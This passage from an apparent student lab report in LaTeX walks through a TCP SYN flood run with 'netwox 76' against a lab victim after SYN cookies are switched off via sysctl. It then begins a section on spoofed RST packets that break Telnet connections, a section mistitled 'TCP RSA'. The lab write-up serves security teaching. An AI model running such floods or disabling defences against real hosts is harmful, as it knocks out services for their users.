    
\includegraphics[width=1\textwidth]{tcp-connection-on.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Run Attacks with SYN Cookie Countermeasure Off}
\end{center}

\vspace{0.5in}

\noindent
Turn off the SYN cookie mechanism.

\begin{framed}
    \begin{verbatim}
sudo sysctl -w net.ipv4.tcp_syncookies=0
sudo sysctl -a | grep cookie
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-cookie-off.png}
\end{figure}

\vspace{0.5in}

\noindent
Relaunch the attack from the attacker to the victim.

\begin{framed}
    \begin{verbatim}
sudo netwox 76 -i 10.0.2.5 -p 23 -s raw
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-attack-on.png}
\end{figure}



\newpage

\noindent
Check the queue of the victim.

\begin{framed}
    \begin{verbatim}
netstat -tna
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-victim-off.png}
\end{figure}
\dots

\vspace{0.5in}

\noindent
The attack is successful because the countermeasure has been switched off
and the observer cannot establish further connections with the victim.

\begin{framed}
    \begin{verbatim}
telnet 10.0.2.5
netstat -tna | grep 10.0.2.6
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-connection-off.png}
\end{figure}



\newpage

\subsubsection{TCP RSA Attacks on Telnet and SSH Connections}
The crux of a TCP RSA attack is sending a spoofed RST packet that causes
an immediate termination of the ongoing connection.

\begin{center}
    \textbf{Using Netwox on a Telnet Connection}
\end{center}

\noindent
Our goal here is to spoof a RST packet to break this TCP connection
between the observer and the victim.

\begin{figure}[H]
    \centering
